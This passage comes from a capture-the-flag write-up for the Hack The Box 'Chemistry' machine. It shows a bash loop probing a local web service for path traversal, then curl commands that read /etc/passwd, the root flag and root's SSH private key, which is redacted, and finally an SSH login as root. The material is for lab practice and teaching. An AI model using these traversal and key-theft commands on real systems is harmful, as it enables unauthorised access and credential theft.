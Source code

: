Now we need check if `monitoring_site/app.py` is using static files directory. By viewing HTML source we can quickly spot `/assets`, let's check if is vulnerable by traversing in loop to some known file (e.g. `/etc/passwd`).
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ TARGET="http://127.0.0.1:7070/assets"; \
MAX_ATTEMPTS=10

TRAVERSE=""; \
for ((i=0; i<$MAX_ATTEMPTS; i++)); do \
    URL="$TARGET$TRAVERSE/etc/passwd"
    echo "Checking: $URL"
    if curl --path-as-is -s -o /dev/null -w "%{http_code}\n" $URL | grep -Ev "404|403" > /dev/null; then \
        echo "\nTarget vulnerable: \e[31;43mcurl --path-as-is $URL\e[0m"; break; \
    fi; \
    TRAVERSE+="/.."; \
done
Checking: http://127.0.0.1:7070/assets/etc/passwd
Checking: http://127.0.0.1:7070/assets/../etc/passwd
Checking: http://127.0.0.1:7070/assets/../../etc/passwd
Checking: http://127.0.0.1:7070/assets/../../../etc/passwd

Target vulnerable: curl --path-as-is http://127.0.0.1:7070/assets/../../../etc/passwd
```

Our simple probing shows that target is vulnerable and as this service is running as `root` we could access to any file on target machine. So we could go straight to root flag.
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ curl --path-as-is http://127.0.0.1:7070/assets/../../../root/root.txt
********************************
```

We have grabbed root flag, but technically we have not escalated privilages to `root`. However with this exploit at hand we could exfiltrate `/etc/shadow` and try to break hashes with `hashcat` or check if `root` user uses private key for SSH authentication.

```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ curl --path-as-is 127.0.0.1:7070/assets/../../../root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
<SNIP>
-----END OPENSSH PRIVATE KEY-----
```

And thre is a key! Let's exfiltrate it and use to gain `root` access over SSH.
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ curl --path-as-is -s 127.0.0.1:7070/assets/../../../root/.ssh/id_rsa > chemistry.htb_root_id_rsa && \
chmod 600 chemistry.htb_root_id_rsa && \
ssh root@chemistry.htb -i chemistry.htb_root_id_rsa
root@chemistry:~#
```

With exfiltrated `root` private key we have fully elevated privilages.
